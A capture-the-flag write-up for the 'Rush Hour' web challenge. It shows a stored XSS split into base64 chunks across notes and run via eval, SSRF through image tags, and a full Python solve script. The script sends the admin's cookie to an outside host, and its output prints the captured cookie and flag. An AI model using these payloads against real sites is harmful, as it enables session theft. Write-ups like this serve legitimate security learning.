 ```yaml
---
title: Rush Hour
solves: 49
points: 388
created: 2025-04-19T02:56
updated: 2025-04-20T19:59
---
```


It is pretty clear from the start that this has no XSS protection whatsoever.

Simple payloads work directly using `<script>` tags.

However due to character limits we need to split our payload into individual slices.

For simplicity we can encode the code as base64, split it into even chunks of 7 chars.
The payload simply concatenates the segments together, base64 decode and then `eval` it.

```python
def send_payload(payload):
    payload = payload.strip()
    payload = base64.b64encode(payload.encode()).decode()
    add_note("<script>`")
    add_note("`;let c='';`")
    for i in range(0, len(payload), 7):
        chunk = payload[i:i+7]
        add_note(f"`;c+='{chunk}';`")
    add_note("`;c=atob(c);`")
    add_note("`;eval(c);`")
    add_note("`</script>")
```

So how do we get the flag? It requires a SSRF and then reading the cookie, then sending it out.

I quickly found out that `fetch` doesn't work. So I went with `img` tags.

```js
img.src = 'http://127.0.0.1:3000/';
```

By doing this once, we populate `document.cookie` with the flag.

Then we can simply send it out.

```js
location = 'https://1337.yun.ng/?c=' + encodeURIComponent(document.cookie);
```

## solve

> For style points I made the admin XSS another admin

```python
import base64
import time
import requests

from server import webhook

session = requests.Session()
# base = 'http://127.0.0.1:3000'
base = "http://rush-hour-v2.ctf.umasscybersec.org"


def register():
    session.get(base + '/').raise_for_status()
    return session.cookies.get('user')


def logout():
    session.cookies.clear()


def set_user(user_id):
    session.cookies.set('user', user_id)


def get_notes(user_id=None):
    if user_id:
        set_user(user_id)
    r = session.get(f"{base}/user/{session.cookies.get('user')}")
    r.raise_for_status()
    return r.text


def add_note(note, user_id=None, use_post=True):
    if user_id:
        set_user(user_id)
    r = session.post(f"{base}/create", data={'note': note}) if use_post else session.get(f"{base}/create", params={'note': note})
    r.raise_for_status()
    return r.text


def clear_notes(user_id=None):
    if user_id:
        set_user(user_id)
    r = session.get(f"{base}/clear")
    r.raise_for_status()
    return r.text


def report_user(target_id, user_id=None):
    if user_id:
        set_user(user_id)
    r = session.get(f"{base}/report/{target_id}")
    r.raise_for_status()
    return r.text


def send_payload(payload):
    payload = payload.strip()
    payload = base64.b64encode(payload.encode()).decode()
    add_note("<script>`")
    add_note("`;let c='';`")
    for i in range(0, len(payload), 7):
        chunk = payload[i:i+7]
        add_note(f"`;c+='{chunk}';`")
    add_note("`;c=atob(c);`")
    add_note("`;eval(c);`")
    add_note("`</script>")


def send_payload_w(payload):
    payload = payload.strip()
    payload = base64.b64encode(payload.encode()).decode()
    code = ""
    code += f'await add_note("<script>`");'
    code += f'await add_note("`;let c=\'\';`");'
    for i in range(0, len(payload), 32):
        chunk = payload[i:i+32]
        code += f'await add_note("`;c+=\'{chunk}\';`");'

    code += f'await add_note("`;c=atob(c);`");'
    code += f'await add_note("`;eval(c);`");'
    code += f'await add_note("`</script>");'
    return code


uid = register()
print(f"registered user: {uid}")
print("sending payload...")
send_payload("""
window.sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
window.add_note = (note) => {
    // add img tag
    let img = document.createElement('img');
    if(note) img.src = 'http://127.0.0.1:3000/create?note=' + encodeURIComponent(note);
    else img.src = 'http://127.0.0.1:3000/';
    img.style.display = 'none';
    document.body.appendChild(img);
    return new Promise((resolve) => {
        img.onload = () => {
            document.body.removeChild(img);
            resolve();
        };
        img.onerror = () => {
            document.body.removeChild(img);
            resolve();
        };
    });
};
window.payload = async () => {
    await add_note();
    """ + send_payload_w("""
console.log("this is an xss embedded in a admin's notes");
console.log("totally done for style but hey");
""") + """
    location = 'https://1337.yun.ng/?c=' + encodeURIComponent(document.cookie);
};
window.payload();  
""")
print("activating payload...")
stop, wait = webhook(1337)
report_user(uid)
cookie = wait()['c'][0]
admin_uid = cookie.split(";")[0].split('=')[1]
flag = cookie.split(";")[1].split('=')[1]
print(f"admin uid = {admin_uid}")
print(f"flag = {flag}")
print("waiting for payload to finish on admin...")
time.sleep(4)
report_user(admin_uid)
stop()
```

```
registered user: 3dca4de7-6a04-47e2-bed5-fb4fed0929f7
sending payload...
activating payload...
127.0.0.1 - - [19/Apr/2025 02:54:34] "GET /?c=user%3D89074c1d-5049-48fd-8531-94f111518c4a-admin%3B%20supersecretstring%3DUMASS%257BtH3_cl053Rz_%2540re_n0_m%2540tcH%257D HTTP/1.1" 200 -
admin uid = 89074c1d-5049-48fd-8531-94f111518c4a-admin
flag = UMASS%7BtH3_cl053Rz_%40re_n0_m%40tcH%7D
waiting for payload to finish on admin...
127.0.0.1 - - [19/Apr/2025 02:54:34] "GET /favicon.ico HTTP/1.1" 200 -
```

```flag
UMASS{tH3_cl053Rz_@re_n0_m@tcH}
```
